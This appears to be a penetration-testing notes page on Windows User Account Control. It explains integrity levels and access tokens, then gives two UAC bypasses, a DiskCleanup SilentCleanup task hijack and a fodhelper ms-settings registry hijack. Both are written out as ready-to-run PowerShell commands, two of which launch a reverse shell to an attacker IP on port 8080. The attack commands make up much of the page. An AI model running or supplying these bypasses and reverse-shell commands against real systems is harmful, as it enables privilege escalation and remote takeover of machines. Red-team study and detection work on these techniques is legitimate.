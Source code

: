 ```yaml
---
description: Bypassing with DiskCleanup and FodHelper
---
```


# User Account Control

In `Windows`, every [securable object](https://learn.microsoft.com/en-us/windows/win32/secauthz/securable-objects) is assigned an [integrity level](https://learn.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control) so that access can be controlled.

* `Low`, mainly used for internet interactions
* `Medium`, default level
* `High`, indicates elevated access
* `System`, highest possible level

Lower integrities cannot access higher integrity levels but it is allowed reversed direction.

{% hint style="info" %}
More UAC Bypasses:

[https://github.com/rootm0s/WinPwnage](https://github.com/rootm0s/WinPwnage)

[https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.002/T1548.002.md#atomic-test-5---bypass-uac-using-computerdefaults-powershell](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.002/T1548.002.md#atomic-test-5---bypass-uac-using-computerdefaults-powershell)
{% endhint %}

#### Access Token

An access is an object that describes security context and integrity level. When a user logs in that user gets access token with a medium integrity level. When an admin logs in, they get are high integrity level.

{% hint style="info" %}
User Account Control manages elevation between access tokens.
{% endhint %}

When having a reverse shell as a user who is Administrator and having no GUI access the process is still running at a medium integrity level. Thus we would have to bypass `User Access Control`

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

### <mark style="color:yellow;">**Bypass 1: DiskCleanup Scheduled Task Hijack**</mark>

Using SilentCleaup scheduled task is start from a process with medium integrity level and automatically evelates to high integrity.

```powershell
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"

# Cleanup
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force
```

### <mark style="color:yellow;">**Bypass 2: FodHelper Execution Hijack**</mark>

`fodhelper.exe` has an attribute called `AutoElevate`, meaning when its run by a user at medium integrity level it is automatically elevated to a `high integrity level`.

When `FodHelper` is run, it attempts to read the value of the registry key `"HKCU\Software\Classes\ms-settings\Shell\Open\Command"`. Where `Shell\Open\Command` tells how to open files like GIF would be opened with iexplore.exe, we can change this to cmd.

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd" -Force

C:\Windows\System32\fodhelper.exe
```

Or get a revers shell

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell <IP> 8080" -Force

C:\Windows\System32\fodhelper.exe
```
